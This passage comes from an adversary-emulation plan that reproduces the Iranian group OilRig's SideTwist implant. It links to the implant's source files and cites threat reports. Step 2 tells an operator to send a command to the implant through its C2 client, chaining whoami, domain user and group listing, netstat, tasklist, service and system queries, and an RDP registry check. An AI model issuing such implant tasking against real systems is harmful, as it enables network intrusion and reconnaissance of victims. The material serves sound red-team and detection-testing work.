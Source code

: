 <br>

*  SideTwist Implant: [SideTwist Implant](../Resources/SideTwist)
*  SideTwist collects ID info: [SideTwist.cpp#L238-L280](../Resources/SideTwist/SideTwist/SideTwist.cpp#L238-L280/)
*  SideTwist sets IP/port: [SideTwist.cpp#L180-L219](../Resources/SideTwist/SideTwist/SideTwist.cpp#L180-L219/)
*  SideTwist encrypts communications: [comms.cpp#L106-L111](../Resources/SideTwist/SideTwist/comms.cpp#L106-L111)
*  SideTwist XOR key: [comms.h#L23](../Resources/SideTwist/SideTwist/comms.h#L23)


<br>

### :microscope: Cited Intelligence
*  SideTwist: https://research.checkpoint.com/2021/irans-apt34-returns-with-an-updated-arsenal/
*  VBA coding/macros: https://www.intezer.com/blog/malware-analysis/new-iranian-campaign-tailored-to-us-companies-uses-updated-toolset/

<br>


## Step 2 - Workstation Discovery

### :microphone: Voice Track

Step 2 emulates OilRig performing a string of initial enumeration commands using 
the cmd spawned by `SystemFailureReporter.exe`.

OilRig enumerates the current user, system information, system network 
configuration information, domain users, domain groups, domain accounts, local 
groups, network connections, running processes, running services, and a 
registry key value to check if RDP is enabled.

At this point OilRig has discovered that the current user `gosta` is a member of
`EWS Admins`, that EWS server `WATERFALLS` has the ip address of `10.1.0.6` and 
is part of the `Exchange Trusted Subsystem` group, and the existence of several 
other administrator groups, including `SQL Admins` of which user `tous` is a member.

---

### :biohazard: Procedures

:arrow_right: On Linux Attack Platform `192.168.0.4` as user `saka`, split the existing C2
terminal window horizontally, being careful to not terminate the server.

`Right click > Split Horizontally`

In the bottom split window, issue the following commands to the implant, 
waiting until each task is accomplished before teeing the next one. 

:bulb: The implant will execute every 5 minutes.

```bash
# Helminth has been observed to perform initial information gathering on systems, including the enumeration of the current user, accounts, groups, system information, network connections, processes, services, and if remote desktop is enabled.

./evalsC2client.py --set-task goTb '101 whoami & hostname & ipconfig /all & net user /domain 2>&1 & net group /domain 2>&1 & net group "domain admins" /domain 2>&1 & net group "Exchange Trusted Subsystem" /domain 2>&1 & net accounts /domain 2>&1 & net user 2>&1 & net localgroup administrators 2>&1 & netstat -an 2>&1 & tasklist 2>&1 & sc query 2>&1 & systeminfo 2>&1 & reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" 2>&1'
```
